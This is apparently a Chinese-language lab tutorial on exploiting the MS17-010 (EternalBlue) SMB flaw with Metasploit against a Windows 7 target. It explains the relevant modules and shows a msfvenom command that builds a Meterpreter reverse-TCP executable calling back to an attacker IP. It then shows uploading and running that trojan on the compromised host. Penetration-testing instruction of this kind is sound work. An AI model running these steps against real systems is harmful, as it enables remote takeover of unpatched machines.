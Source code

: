 ### MS17-010 永恒之蓝（MSF）

MS17-010 是 Windows SMBv1 服务器处理特殊 SMB 报文时的内核级内存处理缺陷（导致内存越界/内存破坏），攻击者可借此实现**任意内存写/远程代码执行（RCE）**，在受害机器上以 **SYSTEM（内核/系统）权限**执行代码

环境准备：一台 KaliLinux（攻击者）和一台 Windwos 7（靶标）

![](https://pic1.imgdb.cn/item/68cb5f73c5157e1a8813c541.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

启动 MSF

![](https://pic1.imgdb.cn/item/68cac8d3c5157e1a8812f53b.png)

搜索漏洞利用模块

```
search ms17-010
```

![](https://pic1.imgdb.cn/item/68cb5fa4c5157e1a8813c6b0.png)

```
exploit/windows/smb/ms17_010_eternalblue
```

- 描述：针对 MS17-010 的 EternalBlue 利用（Windows 内核池损坏/远程代码执行）
- Rank: average（中等）
- `Check: Yes`：模块提供 `check`，可探测目标是否易受攻击（但 `check` 不是 100% 准确）
- 适配面：列出的 target（Windows 7/8/8.1/Server2008R2/2012/10 等）表示模块含多平台/版本的 exploitation 变体或偏好
- 使用场景：对未打补丁的 SMBv1 服务直接利用以触发内核漏洞（通常需要合适的 payload，且常见于 64/32 位差异）

```
exploit/windows/smb/ms17_010_psexec
```

- 描述：利用 EternalRomance/EternalSynergy/EternalChampion（也是一组 NSA 泄露的 SMB 利用）实现远程代码执行，使用类似 psexec 的上传/执行方式（可上传可执行/PowerShell/MOF）
- Rank: normal（普通）
- `Check: Yes`
- 备注：此模块不一定是直接的内核链触发，而是利用另外相关的 SMB 漏洞链来实现文件上传并执行（类似 psexec 工作流）。列出 target：Automatic、PowerShell、Native upload、MOF upload —— 表示模块支持多种执行载体

```
auxiliary/admin/smb/ms17_010_command
```

- 描述：对 MS17-010 相关链的“命令执行”辅助模块（通常直接执行命令而不是打开完整 shell），`Check: No`
- 适用：当你只想远程执行单条命令（而不植入持久 payload）时使用

```
auxiliary/scanner/smb/smb_ms17_010
```

- 描述：扫描/检测目标是否存在 MS17-010 相关的易受攻击性（检测模块）
- `Check: No`（是扫描模块，不是 exploit 的 check）
- AKA: DOUBLEPULSAR / ETERNALBLUE（只是说明检测对象相关）
- 用法：先用该模块或 nmap 脚本确认哪些主机有漏洞，再决定是否尝试 exploit

```
exploit/windows/smb/smb_doublepulsar_rce
```

- 描述：针对已植入 DoublePulsar (黑客后门/内存-based SMB implant) 的远程代码执行模块。Rank: great（很高）
- 说明：DoublePulsar 本身常作为后门/网传载体被植入在被攻陷主机上。该模块有两个 target：执行 payload (x64) 或 “Neutralize implant” —— 后者用于清除 implant（中和/移除 DoublePulsar）

`use 数字`，先使用探测模块

![](https://pic1.imgdb.cn/item/68cb631ec5157e1a8813dd36.png)

查看参数

![](https://pic1.imgdb.cn/item/68cb6439c5157e1a8813ec5e.png)

设置目标后运行发现存在漏洞

![](https://pic1.imgdb.cn/item/68cb64d2c5157e1a8813f49f.png)

切换为攻击模块提示使用 payload

![](https://pic1.imgdb.cn/item/68cb64f8c5157e1a8813f6b4.png)

查看 payloads

![](https://pic1.imgdb.cn/item/68cb653ac5157e1a8813fa4d.png)

查看参数

![](https://pic1.imgdb.cn/item/68cb65a3c5157e1a8814001c.png)

设置目标 IP 后运行

![](https://pic1.imgdb.cn/item/68cb65edc5157e1a8814043d.png)

输入 help 查看帮助

![](https://pic1.imgdb.cn/item/68cb6618c5157e1a88140698.png)

退出并保存会话

![](https://pic1.imgdb.cn/item/68cb6722c5157e1a881418da.png)

生成反弹 Shell 程序

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.41.156 LPORT=4444 -f exe > rt.exe
```

`msfvenom`：Metasploit 的 payload 生成器（生成 raw shellcode 或封装到可执行文件/脚本等）

`-p windows/x64/meterpreter/reverse_tcp`：指定 payload（这里是 x64 Meterpreter 反连 TCP）

`LHOST=192.168.41.156`：payload 连接回你的监听主机（你的 IP，目标必须能访问到这个地址）

`LPORT=4444`：监听端口（payload 反连到这个端口）

`-f exe`：输出格式为 Windows 可执行文件（PE exe）

`> rt.exe` 或 `-o rt.exe`：将输出写入文件 `rt.exe`

加载一个通用的 **handler** 模块，用来接收来自各种反连（reverse）payload 的回连（session）

```sh
use exploit/multi/handler
```

![](https://pic1.imgdb.cn/item/68cb7faec5157e1a8814c887.png)

设置反连的 payload 类型

`set payload ...` 命令告诉当前已加载的 `exploit/multi/handler` 模块：**它要接收的**（也就是你将生成并在目标上运行的）payload 类型是 `windows/x64/meterpreter/reverse_tcp`

![](https://pic1.imgdb.cn/item/68cb802bc5157e1a8814cf65.png)

设置参数后运行

![](https://pic1.imgdb.cn/item/68cb80f4c5157e1a8814da05.png)

上传木马文件

![](https://pic1.imgdb.cn/item/68cb8134c5157e1a8814dd54.png)

在被控主机上以当前 meterpreter 进程的权限创建并运行名为 `rt.exe` 的可执行程序

![](https://pic1.imgdb.cn/item/68cb828cc5157e1a8814ef54.png)

查看进程

![](https://pic1.imgdb.cn/item/68cb835ac5157e1a8814fa16.png)

成功连接

![](https://pic1.imgdb.cn/item/68cb82b0c5157e1a8814f145.png)